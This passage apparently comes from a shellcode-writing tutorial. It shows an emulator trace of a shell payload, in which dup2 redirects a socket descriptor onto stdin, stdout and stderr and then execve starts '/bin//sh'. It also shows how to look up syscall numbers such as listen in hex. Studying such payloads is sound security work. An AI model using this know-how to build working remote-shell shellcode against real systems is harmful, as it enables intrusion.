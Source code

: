 ```cpp
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```


Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```bash
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```
